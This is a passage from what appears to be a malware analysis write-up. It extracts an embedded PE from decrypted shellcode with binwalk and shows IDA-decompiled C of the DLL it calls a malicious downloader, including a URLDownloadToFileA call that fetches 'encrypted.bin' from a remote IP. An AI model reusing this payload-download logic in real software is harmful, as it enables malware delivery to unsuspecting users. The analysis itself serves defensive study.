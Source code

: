 ```bash
binwalk --extract --dd=".*" decrypted_shellcode.bin
```
This yield following result:
```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
2856          0xB28           Microsoft executable, portable (PE)
13704         0x3588          XML document, version: "1.0"
```

> ℹ️ **TL;DR – What is Binwalk?**  
> `binwalk` is a tool for analyzing and extracting embedded files from binary blobs.  
> It scans binaries for known file signatures (like headers and magic bytes) and  
> automatically extracts recognized formats (e.g., ZIP, PE, ELF, images) for further inspection. 

### 🔍 Reversing the Extracted DLL – Malicious Downloader

Upon analyzing the extracted DLL in IDA, we can summarize its core functionality as a malicious downloader.

```c
[REDACTED]
    v10 = 2147483646LL;
        v11 = (char *)("\\encrypted.bin" - v8);
        do
        {
          if ( !v10 )
            break;
          v12 = v8[(_QWORD)v11];
          if ( !v12 )
            break;
          *v8 = v12;
          --v10;
          ++v8;
          --v9;
        }
        while ( v9 );
      }
      v13 = v8 - 1;
      if ( v9 )
        v13 = v8;
      *v13 = 0;
    }
    URLDownloadToFileA(0LL, "https://10.10.70.114/encrypted.bin", v40, 0, 0LL);
  }
  v14 = 260LL;
  v15 = v41;
  do
  {
    if ( v14 == -2147483386 )
      break;
    v16 = v15[pszPath - v41];
    if ( !v16 )
      break;
    *v15++ = v16;
    --v14;
  }
  while ( v14 );
  v17 = v15 - 1;
  if ( v14 )
    v17 = v15;
  v18 = 260LL;
  *v17 = 0;
  v19 = v41;
  do
```